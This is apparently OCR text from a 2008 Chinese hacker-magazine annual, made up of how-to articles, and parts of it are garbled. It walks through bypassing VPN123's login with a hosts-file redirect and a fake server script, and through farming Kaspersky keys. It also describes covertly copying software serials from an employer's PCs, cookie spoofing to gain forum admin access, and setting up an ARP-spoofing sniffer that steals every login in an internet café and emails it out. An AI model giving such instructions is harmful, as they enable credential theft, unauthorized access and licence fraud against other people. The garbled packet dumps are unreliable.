| GET /client_login.php?username=test&password=test&cmd=login&r=f=main HTTP/1.1 | 4003 47 45 54 20 2F 63 6C 69 65 6E |
| Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */* | 4003 74 5F 6C 6F 67 69 6E 2E 70 68 70 |
| Accept-Language: zh-cn | 4003 3F 75 73 65 72 6E 61 6D 65 3D 74 |
| User-Agent: Asyclient | 4003 65 73 74 26 70 61 73 73 77 6F 72 |
| Host: client.vpn123.com | 4003 64 3D 74 65 73 74 26 63 6D 64 3D |
| Cache-Control: no-cache | 4003 6C 6F 67 69 6E 26 72 66 3D 6D 61 |

| Name | Total | Sent | Total Lost | Packets | Lost Packets |
|---|---|---|---|---|---|
| 1 | 0000007D2E | 2 | 2 |  |  |
| 2 | 0000001F8B | 5 | 1 |  |  |

| TCP - Transmission Control Protocol |  |
|---|---|
| Src Port: 3011 | 34(2) 06 83 |
| Seq Number: 3151939246 | 34(2) 75 5C 12 FD |
| Ack Number: 1480300474 | 34(2) 54 18 |
| Header Length: 20 bytes | 34(2) 50 18 |
| Flags: 0x018 (PSH, ACK) | 34(2) 7F FF |
| Window Size: 65535 | 34(2) 09 5C |
| Checksum: 0x95ce | 34(2) 00 00 |
| Urgent Pointer: 0 | 34(2) 09 6D |

| HTTP - HyperText Transfer Protocol |  |
|---|---|
| GET /client_login.php?username=test&password=test&cmd=getvpnroutes&id=1&r=f=main HTTP/1.1 | 0047 47 45 54 20 2F 63 6C 69 65 |
| Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */* | 006F 74 5F 6C 6F 67 69 6E 2E 70 |
| Accept-Language: zh-cn | 005F 70 3F 75 73 65 72 6E 61 6D |
| User-Agent: Asyclient | 0073 65 3D 74 65 73 74 26 70 61 73 |
| Host: client.vpn123.com | 0072 77 6F 72 64 3D 74 65 73 74 26 |
| Cache-Control: no-cache | 0064 63 6D 64 3D 67 65 74 76 70 6E |
|  | 0072 6F 75 74 65 73 26 69 64 3D 31 |

| Name | Total | Sent | Total Lost | Packets | Lost Packets |
|---|---|---|---|---|---|
| 1 | 0000001F8B | 5 | 1 |  |  |
| 3 | 000001F99A | 3 | 2 |  |  |

| HTTP - HyperText Transfer Protocol |  |
|---|---|
| HTTP/1.1 100 OK | 0000 48 54 54 50 2F 31 2E 31 |
| Date: Tue, 11 Dec 2007 08:50:32 GMT | 0041 20 31 30 30 20 4F 4B 0D 0A |
| Server: Microsoft-IIS/6.0 | 0041 44 61 74 65 3A 20 54 75 65 |
| X-Powered-By: PHP/5.2.0 | 0041 2C 20 31 31 20 44 65 63 20 |
| Content-Type: text/html | 0041 32 30 30 37 20 30 38 3A 35 |
| Expires: Thu, 19 Nov 1981 08:52:00 GMT | 0041 30 3A 33 32 20 47 4D 54 0D |
| Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0 | 0041 0A 53 65 72 76 65 72 3A 20 |
| Pragma: no-cache | 0041 4D 69 63 72 6F 73 6F 66 74 |
|  | 0041 2D 49 49 53 2F 36 2E 30 0D |

| HTTP - HyperText Transfer Protocol |  |
|---|---|
| ////// | 0038 31 31 30 20 4F 4B |
| ./../etc | 0030 30 30 30 30 30 30 30 30 |
| 202 96 10 0/A 96 2A 96 2A 10 | 0030 30 30 30 30 30 30 30 30 |
| 202 96 10 247 96 2A 96 2A 10 | 0030 30 30 30 30 30 30 30 30 |
| 20 96 10 0/A 96 2A 96 2A 10 | 0030 30 30 30 30 30 30 30 30 |
| 202 96 10 247 96 2A 96 2A 10 | 0030 30 30 30 30 30 30 30 30 |
| 20 96 10 0/A 96 2A 96 2A 10 | 0030 30 30 30 30 30 30 30 30 |

- client.vpn123.com
- /client_login.php?username=test&password=test&cmd=login&r=f=main
- /client_login.php?username=test&password=test&cmd=getvpnroutes&id=1&r=f=main

在浏览器中打开这两个地址：

- http://client.vpn123.com/client_login.php?username=test&password=test&cmd=login&rf=main
- http://client.vpn123.com/client_login.php?username=test&password=test&cmd=getvpnroutes&id=1&r=f=main

104


我们先打开第一个地址，回显了一些信息，然后在页面上右击右键并选择“查看源代码”，可以在记事本中以本身的排列方式显示这些信息（如图7，浏览器中换行需要使用 `<br>` 标记，HTML 不可识别的回车），保存文件内容到“D:\Soft\VPN123\Web”下，文件名为“server.txt”。使用同样的方法打开第二个地址并且查看源代码，保存内容至“D:\Soft\VPN123\Web”下，文件名为“dns.txt”。

此处注意，如果你在本机已经用过VPN123很久，该测试帐号已经无法正常登录了，那么上面的2个地址中你将会得到一个包含Locked信息的返回，表示该用户已经锁定，代码如下，此刻你需要借助另一台未使用过VPN的电脑来访问页面以获得返回信息。


```
VPN1
ProductClientVersion=1.02.0
UpdateURL=http://client.vpn123.com
isopen.php
AuthResult=Locked
```


到此，我们所需要的信息及文件基本准备就绪，让我们来分析下软件原理：

1. 在登录界面输入用户名称及密码进行登录；
2. 将用户名和密码通过URL方式发送到地址1中进行验证；
3. 验证通过后返回当前可用的服务器线路（即第一个URL返回的数据）；
4. 提交选择线路后服务器建立和你之间的VPN连接，并且返回网关路由信息（即第二个URL返回的数据）到本机；
5. 使用上面返回的DNS信息修改掉本机的网关连接，设定某些URL通过VPN进行访问。

从以上分析可以看出，注册验证是通过URL发送信息，然后根据返回信息来判断的，那么就是说我们只需要构造一个与上面一样的地址并且总是返回登录成功的信息就OK了。我们可以这样做：在本机架设IIS（相关方法网上非常多，XP/2000/2003系统盘自带，本文以2003服务器为例，其它类同），第一页网站描述“client.vpn123.com”，第二页IP地址和端口设置页中，在主机头处输入“client.vpn123.com”，第三页路径设置处选择“D:\Soft\VPN123\Web”，第四页选择“读取”和“运行脚本”，完成IIS站点创建。然后再选择该站点，并且右击点击“属性”打开属性设置窗口，选择到“主目录”选项，在“执行权限”处选择“纯脚本”，并点击它后面的“配置”来打开新的配置窗口。在第一项映射里找到“.asp”的扩展名，选择，然后点“编辑”，复制可执行文件“C:\WINDOWS\system32\inetsrv\asp.dll”，然后取消掉，再点击“添加”，在“可执行文件”处粘贴以上信息，扩展名处输入“.php”，其它的不变，连续三个确定后就可以了，这样我们的IIS就可以把“.php”文件当做“.asp”文件来解析了（因为VPN的验证地址是PHP的，我们总不至于架设一个PHP服务器来做欺骗吧，因此使用IIS修改一下就好了）。

接着修改本机的HOST文件（这个文件可以用来做本机DNS解析，也就是说你可以在文件中写上某个域名解析到某个IP下，比如有些病毒木马就喜欢修改它，让你访问 Baidu Google时访问到一个伪造的页面去），打开“C:\WINDOWS\system32\drivers\etc”找到“hosts”这个文件。这个文件没有扩展名，使用记事本打开它，然后添加一条DNS记录，如图8。

到此，还差最后一步了，我们需要构造一个“client_login.php”文件，代码我已经写好了，直接复制下面的代码到“D:\Soft\VPN123\Web\client_login.php”文件中即可，代码如下：


```
dim username,password,tempcmd
username = request("username")
password = request("password")
tempcmd = request("cmd")

if cstr(tempcmd)="login" then
echo("server")
else
echo("dns")
end if
?>
```

```
dim tmpFSO,tmpFile,tmpTextStream,tmpText
tmpFile = Server.MapPath(strer&"'.txt'")
Set tmpFSO = Server.CreateObject("Scripting.FileSystemObject")
Set tmpTextStream = tmpFSO.OpenTextFile(tmpFile)
tmpText = tmpTextStream.ReadAll
response.write tmpText
end sub
```

好了，为了测试方便，我们把本机网络断掉（拨网线还是禁用本地连接就随便你了），然后再访问之前我们记录的地址，正确返回信息，当然如果你现在去开启VPN123的话肯定是无法连接到的，因为VPN123最后还需要连接到VPN服务器的，当然我们现在打开VPN连接的话也可以到达网络选择页，确定后会提示无法到达目标，好了，测试完成，把你的网络接上，然后打开VPN123进行游戏吧，除了玩游戏外，访问一些电信的站点速度也是非常快的哦！
（本文中所涉及到的软件 Vpn123.exe mtna_std_setup.exe 及相关代码已经收录到光盘中）

## 看我无限次刷卡巴7.0半年key

txcbg


现在360安全卫士正与卡巴斯基合作，只要安装360安全卫士就可以免费得到半年的卡巴斯基正版key，但每台电脑只能得到一次，半年key到期后，再使用360安全卫士就不能再次申请到新的半年key了，会提示说已经申请过了。难道我们就真的没办法第二次、第三次申请半年key了吗？当然不是的，利用一个小技巧，我做到了无限次刷卡巴的半年key。
先到http://360safe.qih00.com/download.html下载最新版的360安全卫士v3.64豪华版，豪华版自带了卡巴7.0的安装包，必须安装完卡巴后才能领取激活码，省去了再次单独下载卡巴的安装文件（小编注：目前360安全卫士的最新版本为3.7，我们现在可以下载3.7的豪华版，也同样有半年免费激活码活动的）。安装完毕后切换到360的杀毒选项，就可以看到“点此获取半年的免费激活码”的链接了，如图1。


图2


图3

直接点击该链接，就会弹出来奇虎用户登录界面，如图2。随便注册一个用户，成功创建用户后就可以直接看到领取激活码的按钮了，如图3。点击获取的按钮，就会弹出来如图4所示的对话框。
今天是2007年12月6日，激活码却已经在10月14日过期了，这是因为我已经在2007年4月14日领取过一次了，正如图中它所提示的那样，一台电脑只能获取一次，再领取时得到的还是原来的那个激活码。既然它说一台电脑只能领取一次，那我们找一台别的没有领取过的电脑领取，然后使用得到的key来激活我们已经过期的卡巴不就行了吗？下面来验证我的想法是否可行。当然，我并不是说为了得到一个卡巴的半年key就去买一台新电脑或是使用别人的电脑。那我们到哪里去找没有领取过的电脑呢？使用虚拟机呀。相信玩黑的朋友几乎都安装过虚拟机吧（当然你也可以使用3389肉鸡^_^）。我安装的是VMware Workstation，打开一台没有领取过卡巴半年key的系统，跟上面的操作步骤一样，下载360安全卫士v3.64豪华版，安装后按提示领取激活码，这次成功领取到了新的激活码，如图5，过期时间为2008年6月6日。


图4


使用得到的激活码看看能否激活我原来的已经过期的卡巴吗，结果成功的激活了，如图6。这样我又可以用上半年正版的卡巴斯基了。如果到时候这个半年的key又过期了，在虚拟机里重新安装一个新系统再领取就可以了，这样就可以无限刷卡巴7.0的半年key了。正在苦苦寻找卡巴key的叉子快去试试吧。使用这种方法得到的激活码不像网上某些流传的key，绝对可以放心使用，不用担心被封。


另外，经过我的测试，卡巴7.0在默认情况下不能在Windows2003系统下安装，所以在刷卡巴key时建议不要使用Win2003系统，如果朋友们在使用这个方法刷卡巴半年key的过程中遇到了什么问题，欢迎来黑客X档案的官方论坛和我交流。

## 教你几招保护好自己的IM密码

BaceNet

俗话说的好，没啥也别没钱，丢啥也别丢密码。随着计算机网络的发展，IM即时通讯软件也是每个人必备的交流工具，聊天密码的安全自然成为了一个焦点，下面的几招就教你如何保护好自己的聊天密码！

### 一、时刻警惕“善意的谎言”

网络是把双刃剑，同理网页也是一把双刃剑，我们可以通过网页浏览信息，也可以被恶意攻击者利用来获取网民的敏感信息，网络钓鱼就是其中一个很好的例子。


玩QQ的时候大家应该注意到，腾讯公司举办活动的地址一般都是http://xxx.qq.com/xxx，对比这个格式，与之不同的网址我们就应该提高警惕。另外很多网站还会利用大家的不注意，搞出一些类似腾讯公司的网页，比如http://im.qq.com.chat.com，其实我们仔细看一下，这只是chat.com的一个子域名而已。

在网络上我们经常会看到很多以腾讯公司举办XX活动，欢迎大家参加之类的信息，对于这种攻击，我们一定要到http://qq.com去看一下腾讯网站是否有这样的信息才可以防止被欺骗！

### 二、一眼识别爱机中马了

从2005Beta3开始腾讯使用了软键盘输入密码，而现在则使用nprotect键盘加密技术，目前网上出现的盗QQ木马要想通过键盘记录获取QQ帐号和密码，首先就要解除这种加密技术，其破解原理基本上都是通过删除QQ默认安装目录下的npkcrypt.sys、npkcrypt.vxd、npkcntc.dll三个文件，而未删除这三个文件的时候在密码框旁边有一个小锁，如图1。而删除后则会如图2所示！通过对比，只要发现小锁上面“挂彩”了，就能知道我们的爱机中了盗号木马。升级病毒库查杀木马，然后再重新安装QQ就可以了！知道了原理，做起防护来自然简单了，输入如下代码保存为fanghu.bat！

```
@echo off
cacls.exe %:\qq安装目录\npkcrypt.sys /e /t /g everyone:n
cacls.exe %:\qq安装目录\npkcrypt.vxd /e /t /g everyone:n
cacls.exe %:\qq安装目录\npkcntc.dll /e /t /g everyone:n
```

这样即使中马了，因为没有权限也无法删除这三个文件，从而保护了自己的帐号密码不被盗窃！

### 三、密码忘了丢了我才不怕


为了登录即时通讯软件的时候方便，很多IM软件都设置了自动登录，但是长时间利用自动登录，我们很有可能会忘记原来的密码，对于MSN用户来说，大家可以使用X档案以前介绍过的Mess pass，该软件不仅支持MSN messenger还支持破解Google Talk等IM软件！

如果我们的QQ密码丢失了，大家首先想到的是密码保护，但是万一没有密码保护，我们就需要通过申诉来找回密码了，但是想申诉就必须要知道我们以前使用过什么密码，被盗前使用的密码，另外还要知道以前QQ号码上几个好友的帐号，最后还要知道最后一次上线的时间地点及密码是如何丢失的！

如果你的QQ号在现实中没有什么联系，你根本无法获取好友的号码，我们可以进行如下操作。首先运行QQ登录修改专家，如图3，然后单击“浏览”，选择QQ的安装目录，这时候“QQ登陆号码”栏里就会出现本机登录过的QQ，如果没有，我们可以单击“添加”，然后断开网络，在QQ登录号码中，选择你丢失密码的那个号码，单击“修改”，这时候我们打开QQ就可以使用密码000000登录了，登录后就可以查看到好友的号码了！

有了上面的准备，我们就可以登录http://service.qq.com/psw/mo.shtml?psw_ss.htm，去提交信息进行申诉了！55


## 论坛乾坤大挪移

紫衣★行者

大家知道如何把别人论坛上的帖子转到自己论坛上来吗？对于我提出的这个问题，可能许多小菜都会认为不可思议：用鼠标复制、粘贴不就行了吗，这地球人都会呀！这样做当然可以，但倘若我们要转的帖子有许多，甚至是对方论坛上全部的帖子，如果还使用复制、粘贴的方法，恐怕就没几个小菜愿意做这个苦力活了。其实我们只要使用一个小工具就可以解决这个问题了。请出我们的主角－－狂人采集大挪移（论坛采集器）。

其实论坛采集器有很多的版本（PW版的，DZ版的，DVBB版的都有），本文我就只介绍DZ版的用法，其它版本的使用方法都是大同小异。

首先我们运行论坛采集器，解压后会有三个不同的版本，一般选择标准版就行了（图1），由于这是狂人论坛制作的，开始界面显示要使用帐号登录，没有的话也能够看见帐号处默认有“免费使用”四个字，直接点登录就可以了。登录后的界面如图2所示，上面已经列出了操作步骤。


图1


图2

第一步是让你进行论坛设置，这里设置的论坛是要转帖到的论坛，我以和朋友合作的论坛为例。其中前三项都没什么问题，最后的“论坛类型”一定要选择自己论坛对应的类型（HTML格式是网页类型、动态文件格式是标准类型），不然转帖时会出错的（图3）。

会员发帖，用户名和密码中间空十个左右的空格，如输入多个用户时需另起一行，后面的是安全提问和安全回答，如果没有的话可以不填。


图3


图4

接下来回到主界面进行第二步：设置论坛版块和发帖地址。论坛版块就是要发到哪个版块，发帖地址就是发帖子的地址。我以“病毒木马”这个论坛版块为例（图4），和刚才一样，也是先保存然后再返回到主界面。

完成后进行第三步：已注册会员设置，就是要设置由哪个会员发帖，用户名和密码中间空十个左右的空格，如输入多个用户时需另起一行，后面的是安全提问和安全回答，如果没有的话可以不填。

接下来进行第四步：论坛会员上线，就是要上线的会员，其实也就是你刚才填写的会员。上线完后会返回登录页源代码，检查是否正确，如果能成功上线就准备进行最重要的一步。

最重要的一步就是：采集及搬家。这一步又细分为四小步，我们逐个来进行。

1. 采集搬家来源论坛设置：就是设置从哪儿来帖子。我以黑基论坛为例，首先选择论坛设置，黑基是DZ5.5动态模板，就选择DZ5动态模板（在左侧有），采集规则名称和采集作者信息可以忽略，帖子列表地址要根据实际情况选择，比如黑基的“木马病毒研究院”，帖子列表地址为http://bbs.hackbase.com/forumdisplay.php?fid=59&page=，列表帖子网址筛选可以保持默认，采集搬家文章模式使用普通，其它的都可以保持默认。到主论坛对应版块时，需要填写你当时第二步选择的版块地址。设置完这些后可以按“添加保存修改”就行了，然后给你选择的设置模板上打对勾就可以了。为了保险起见，我们可以点测试按钮测试一下，测试完成后可以点退出。
2. 批量采集新帖：就是先采集（注意并没有开始搬家哦，只是先采集），把帖子转到自己的电脑上，然后再批量剪切到论坛上。其中的采集页数可能根据需要进行设置，比如是整个版块搬家就填上原版块页数，如果只是采集新帖子，那么设置几页就可以了（图 5）。最好把本地化里的图片打上勾，要不然只能看文章不能看图片多没意思啊。设置完成后点“采集开始”，会提醒你设置一个目录以存放本地化的文件，然后会提示你使用论坛采集器下载还是使用其它软件手工下载，当然是选择使用论坛采集器下载了呀，因为图片文件也不是很大。然后工具就开始正式采集了，如图 6。


图 5


3. 查看修改保存在电脑中的文件，如果有垃圾帖的话，在这一步可以删除，如果没有的话直接保存，然后点返回退出。
4. 批量发帖，这是最重要的一步了，刚才费的时间全是为了它。点击后把“发后删帖”前的勾去掉，把广告数量 1 去掉，也不要写 0，就让它空着，延时推荐设置成 100，发帖字号设置为 10。然后点采集的帖子文章管理，把需要发的帖子打上勾，然后保存返回。接着就开始发帖了哦，如图 7。
相信看了本文后大家都会使用论坛采集器发文章了吧，这样就可以省去我们小菜不少时间了。

（本文所涉及到的 discuz 狂人采集大挪移已收录到光盘中）


图 6

图 7

## Google 也要打免费电话

txcbg


相信很多小菜都用过或听说过免费打电话的软件吧，最近 Google 也推出了免费打电话的服务，我试用了一下，感觉非常不错，特推荐给大家。
要想使用 Google 提供的免费打电话服务，需要用到 Google 推出的一款即时聊天工具——Google Talk。我们首先去 http://dl.google.com/googletalk/googletalk-setup-zh-CN.exe 下载最新的简体中文版 Google Talk，先进行安装，运行后的界面如图 1 所示。
我们需要使用 Gmail 帐户进行登录，如果你已经有 Gmail 邮箱直接


100


# 傻瓜黑客
2008 合订本上卷

登录就可以了，如果还有没的话，可以去http://mail.google.com/mail/signup注册一个（早就开放注册了），登录后的界面如图2所示。
通过“添加”按钮把“service@splinter.net”添加为联系人，添加完毕后，直接双击“service@splinter.net”这个联系人，就出来了一个小的聊天窗口，如图3。
在下面的小输入窗口中就可以输入你要拨叫的电话号码了，注意在输入电话号码时前面要加国家代码，比如给中国移动的13512345678打电话，就输入“call 8613512345678”。如果是固定电话，要把区号前面的0去掉，比如给济南一电话号码为12345678的人打电话（济南的区号是0531），就输入“call 8653112345678”。输入完后，直接按回车，会很快跳出一个对话框，点“应答”后就开始拨叫对方号码了，等对方接了电话就可以通话了（图4）。
每个Google账户都给了0.25美元的话费，每分钟的话费是0.0143美元，约可以打17分半时间的电话。那话费打光了怎么办呢？我们还可以换个Gmail账户继续打，反正Gmail账户是免费申请，要多少有多少。
经过我的测试，通话质量还算可以，差不多能达到手机的通话质量。另外，在输入框中输入“HELP”还会出现详细的帮助（不过是英文的），如图5。比如输入“COST”可以查询你打某个电话花了多少钱，剩下的命令有兴趣的话大家就慢慢研究吧。
总的来说，Google提供的这个有限免费打电话的服务还是不错的，Google提供的服务稳定性可以得到保证，申请也比较简单，不像有些需要使用手机等申请后才能免费打电话，想打免费电话的叉子快来试试吧。
（本文所涉及到的Google Talk已收录到光盘中）


## 轻轻松松获取电脑序列号
王涛

前几天因为工作去了一家大公司，看到人家电脑中的软件都是正版软件，对于囊中羞涩，只能下载盗版软件使用的我，心中甚是痒痒。趁办公室没人，掏出我的U盘，启动工具箱中的法宝——KeyFinder Thing，来了个大搜刮。
KeyFinder Thing可以自动搜寻系统中存在的软件序列号，如Window、Office、Nero、Photoshop、Adobe acrobat等，并可以将搜寻到的成果保存为文件输出，这样就神不知鬼不觉的盗收到正版软件序列号了。回家之后仍然暗爽，所以就在自家电脑上将整个过程模拟了一遍，和大家一起分享。
运行KeyFinder Thing后（正常运行这个软件需要系统中安装有.Net Framework 2.0），程序会自动检测系统内所安装的软件的序列号，并将其以列表的形式罗列出来，如图1。如果需要保存的话，可以选择File菜单栏下的Export Keys，保存为TextFile或HTML格式，如图2。
难道KeyFinder Thing就只能找到这么几个序列号？当然不是，可以找到的软件序列号远不止这些。很多软件在安装时都会将序列号保存到注册表中，为了更全面找到系统注册表中的序列号，单击Tools菜单下的Search，好好的将注


110

## 2008 合订本上卷
# 傻瓜黑客

册表搜寻一下，如图3。接下来看看战果吧，如图4。但是这种方式也有一个缺陷，就是不能直接导出文本格式或HTML格式，需要在KeyFinder Thing3 Search界面中勾选要保存序列号的项或者全选，再点击“Select All”，然后复制选择项，点击“Copy Selected”，这样就可以将序列号拷贝到剪贴板，最后再复制到文本编辑器中就可以了。
（本文所涉及到的KeyFinder Thing已收录到光盘中）HD


Evil × Fan

## 系统还原听我的

记得以前杂志中一些关于系统还原的文章，让我受益匪浅，最近几天我发现硬盘空间已经所剩无几了，于是就学着杂志上介绍的方法删除了几个还原点来释放空间，可是过不了多久硬盘又没有多少空间了（还原点是很占空间的，如图1）。后来才知道，如果你开启了系统还原，系统会每隔一段时间创建一个你所监视的硬盘还原点，对于我这种小硬盘容量的用户来说实在是太奢侈了。
后来仔细想了想几种解决办法，其实我们根本没必要那么频繁的创建还原点，一般情况下在刚安装好系统时创建一个还原点，关闭系统还原就可以了。在往深处考虑，系统内最重要的是C盘（假设C是系统盘），我们也没必要去创建所有盘的还原点，所以也可以只创建C盘的还原点。对于如何关闭某个磁盘的系统还原，相信大家都会吧（图2），不过我要再给大家推荐一种方法，使用这种方法你创建的还原点体积将会更小。
系统里最重要的文件基本上都在windows目录下，因此我们只要还原windows目录下的内容就可以了，也就是说让系统只创建关于windows目录的系统还原点。比如在C盘下创建文件夹123，我想让系统还原在创建还原点时不把123这个文件夹包括在内，那么怎么解决系统还原在创建还原点时忽略掉123这个文件夹而只创建windows目录的还原点呢？方法很简单，利用注册表就可以实现，下面看我的操作。


在“开始”--“运行”栏输入regedit调出注册表，进入注册表后依次展开HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\BackupRestore\FilesNotToBackup，我们会在该项右边的窗口中看到有许多字符串，这些就是不被创建到还原点内的文件了。现在我们也要让系统在创建还原点时不把文件夹123考虑在内，在右边窗口的空白处单击鼠标右键，选择“新建/多字符串值”，然后将新键值重命名为“123”，数值数据设置为“C:\123\*  /S”（图3）。接下来启动系统还原，创建C盘的还原点，一定要新创建一个还原点，要不然在还原后会删除以上的设置。创建完成后重启一下，备份还原点，然后就可以关闭系统还原了。好了，以后我们再创建还原点时就不会考虑文件夹123了，当然你也可以根据以上方法来设置你不希望被创建到还原点内的文件了，但是windows文件夹一定要创建哦！


这种方法的优点有很多，比如我早期创建了一个还原点，而以后又经常在C盘内存放文件等，如果系统崩溃了，我们又忘了把那些文件给复制出来，那么当系统还原后，就会将后来所创建的文件销毁，那样是不是很心痛啊！所以说当你掌握了这种方法后，再也不用担心硬盘空间不足，或者说系统还原时把后来所创建的文件给弄丢了。HD

## 黑客技术轻松入门

什么是Cookies欺骗？

在日对用户做Cookie验证的系统中，通过修改Cookies的内容来得到相应的用户权限登录。初级用户可以修改Cookies的过期时间；实现永久登录；Cookies欺骗在入侵中经常用到，例如Leadbbs论坛的Cookies欺骗漏洞。首先自己注册一个用户登录，得到Cookies。从那些团队页面中找到管理员的ID，然后把Cookies中自己用户ID改成管理员的ID（IEcookiesView是专门修改Cookies的软件，如图）。刷新页面后登录后地址栏，输入管理员密码登录后台，到此就通过Cookies欺骗登录成功登录后台，这个入侵方法还是很容易的。

11

# 傻瓜黑客 2008合订本上卷

## 巧用蓝牙手机 “无形锁”
### 为电脑装上

花的神明

使用蓝牙通讯技术，可以在蓝牙手机、PC、笔记本电脑、掌上电脑、家电等支持蓝牙功能的设备间建立蓝牙连接，从而灵活快速的共享所需的数据。现在越来越多的朋友都拥有了蓝牙手机，那么能否使用蓝牙手机“遥控”操作电脑呢？例如在办公室等场合，当你离开自己的电脑后，如果没有及时锁定屏幕或者关机，那么别人就可以轻易接触到你的重要文件。如果我们使用LockItNow!这款有趣的软件，就可以使用蓝牙手机轻松锁定电脑了。其运行原理是当蓝牙手机和电脑建立了连接之后，LockItNow!就开始监控这种连接状态，当你离开电脑后，蓝牙手机超出了可用的连接距离，失去有效的连接后，LockItNow!就会自动执行锁定电脑，当返回后重新建立了可靠连接，即可自动解除锁定状态。这样就不必担心电脑的安全了。

初次使用LockItNow!时，会弹出密码设置窗口（图1），在其中输入LockItNow!的解锁密码，点击“Set Password”按钮保存设置，这样假如你忘记带蓝牙手机，也可以手工为电脑解锁。


在系统托盘中的LockItNow!图标上点击鼠标右键，选择“Settings”，在设置窗口选择“General”项，然后在“Operation mode”列表中选择“Use with phone”（图2），表示使用蓝牙手机为电脑加锁。当然，如果你没有蓝牙手机，可以选择“Use without phone”项，表示手工为电脑加锁。我们选择第一项，在其下选择“Bluetooth inquiry”，表示允许LockItNow!自动检测可用的蓝牙设备。在“Bluetooth inquiry (Not supported)”中点击“Search”按钮，LockItNow!就开始检测本机周围的蓝牙设备，当检测完成后，就会弹出一个窗口，在“Found devices”栏中显示所有检测到的蓝牙设备（图3）。选中你的蓝牙手机，点击“Add”按钮，将其添加到“Phones that will unlock LockItNow!”列表中。当然，你也可以同时添加多个蓝牙设备。如果LockItNow!在电脑周围检测不到选定的蓝牙设备，就会自动锁定电脑。


如果在“Operation mode”中选择“Bluetooth connect”（图4），表示手工检测蓝牙设备。在“Buluetooth connect”栏中选择和蓝牙适配器对应的COM端口，在“Can LockItNow! Detect the phone”栏中点击“Start”按钮，LockItNow!就会对连接在该COM端口上的蓝牙手机进行检测了。

在“With Phone”选项的“The lock response when the phone not is present”中拖动滑块来设置当蓝牙手机离开LockItNow!的检测范围后，LockItNow!锁定电脑的反应时间（图5），一般来说将滑块设置到“Default”处，表示LockItNow!失去蓝牙手机联系后，在两秒内锁定电脑，你也可以根据实际需要拖动滑块来设置锁定的反应时间（从0秒到10秒）。

在“The unlock response when the phone is present”中拖动滑块，设置当LockItNow!重新检测到蓝牙手机后为电脑解锁的反应时间。当然，如果你没有携带蓝牙手机，也可以使用预设密码为电脑解锁。在“Wait X minutes”中设置解锁成功后，经过多长时间（默认为5分钟），当LockItNow!检测到没有执行任何操作就可以重新锁定电脑。如果我们选择的是纯手工锁定电脑，在“Without Phone”的“The inactivity lock response time Wait X minutes”栏中设置当LockItNow!检测到电脑空闲的时间超过预设置（默认为5分钟）后，即可执行电脑锁定操作（图6）。在“Schedule”栏中可以设置自动锁定和解锁的时间，当预设的时间到达后，LockItNow!即可立即锁定或者解锁电脑。


12

## 2008 合订本上卷
# 傻瓜黑客


在“Security”的“Change password”栏中可以更改解锁密码。点击“Set Password”保存密码（图7）。为了进一步增强 LockItNow! 的安全性，可以勾选“Incorrect password attempts before logoff X”项，表示当电脑锁定后，输入的解锁密码错误超过预设的次数（默认3次），即可执行注销操作。勾选“Use default Windows locking security”项，表示当锁定电脑时，使用 Windows 默认的锁定模式，当用户解锁后，必须手工登录系统。勾选“Password required to close”项，表示在 LockItNow! 中执行更改设置、推出、打开管理界面等操作时，必须输入密码。

在“Other”中的“Background”栏中可以更改电脑锁定时的屏幕显示模式，默认为 LockItNow! 提供的背景画面，也可以选择纯黑的背景或点击 “Browse” 按钮选择自定义背景画面。设置完成后点击 OK 按钮保存配置（图8）。

默认情况下，LockItNow! 自动激活保护功能，如果你使用蓝牙锁定的电脑，LockItNow!即可自动检测选定的蓝牙手机，当其超出检测范围后，LockItNow!即可自动锁定电脑，当你携带蓝牙手机返回电脑附近时（一般为10米以内），LockItNow!就会重新检测到蓝牙手机的存在，即可自动为电脑解锁。当然，你可以在 LockItNow! 右键菜单上点击“Lock”项，也可以立即锁定电脑了。如果想暂时取消 LockItNow! 的保护状态，可以在 LockItNow! 右键菜单中点击“Inactivate”项，就会取消 LockItNow! 的保护功能，点击“Activate”项，就可以恢复 LockItNow! 的保护状态了。（本文所涉及到的 LockItNow! 已收录到光盘中）

## 一网打尽网页密码
追风少年@H4CK.CN

相信大家都使用过许多键盘记录木马，作为国产老牌的盗号软件——密码监听，其在功能上已经逐步完善。它可以用于监听所有网页的密码，包括网页上的邮箱、论坛、聊天室等。它只需要在一台电脑上运行，就可以监听整个局域网内任意一台电脑登录的帐号和密码，并将密码显示、保存，或发送到用户指定的邮箱或提交到指定网页。也就是说我们只要在网吧任一台电脑上运行密码监听，那么就可以轻松获取整个网吧所有人的帐号和密码了，这可是其它盗号软件所无法比拟的功能。下面就跟我一起来看看这款软件的使用方法吧。

第一步：配置程序

1、首先将软件包解压缩，然后运行 pswmonitor.exe，这时程序会要求我们注册，如果没有注册的话，监听到的密码的最后一个字符是问号“？”，这当然不是我们所希望看到的。大家可以使用“用户名：追风少年@H4CK.CN，注册码：2878487”来进行注册（图1）。


2、注册成功后就可以看到程序的主要操作界面了。首先看到的是监听状态页，从图 2 中可以看到正在监听本地网卡，密码数为 0，也就是还没有监听到任何密码。界面上各个按钮的功能如下。

- 保存：将监听到的密码保存。
- 发送：将监听到的密码发送到用户指定的邮箱地址。
- 清除：清除列表中所有的密码。
- 中止/开始：该按钮在监听与中止监听之间切换。
- 隐藏：隐藏该界面，也可以按热键在显示与隐藏之间切换。
- 关闭：关闭该程序。


3、要想监听到密码就得对程序进行详细的配置，我们切换到“适配器”选项，选择要监听的网络适配器，比如拨号网络适配器、网卡等，以适应不同的上网方式（图3）。如果选择一个适配器后还监

# 傻瓜黑客
## 2008 合订本上卷

听不到密码，可以尝试选择其它适配器。“使用ARP欺骗监听局域网”是对局域网中的电脑而言的，如果不能监听到其它电脑上的密码，可以勾选该选项，然后按“应用”按钮以生效。在使用ARP欺骗监听局域网时，需要注意的是：WINDOWS98不支持该功能，并且在使用该选项后运行密码监听的那台电脑的性能可能会下降或所在的局域网可能会出现网络异常，因此要慎用。


4、接下来切换到“发送与保存”选项进行设置（图4），在“发送参数”中各个参数如下设置。发送邮箱：用于发送密码的发送邮箱地址，比如我使用的信箱是zhuifeng@163.com。密码：发送邮箱的密码。SMTP服务器：发信使用的SMTP服务器，比如网易免费邮件的SMTP服务器地址为smtp.163.com。
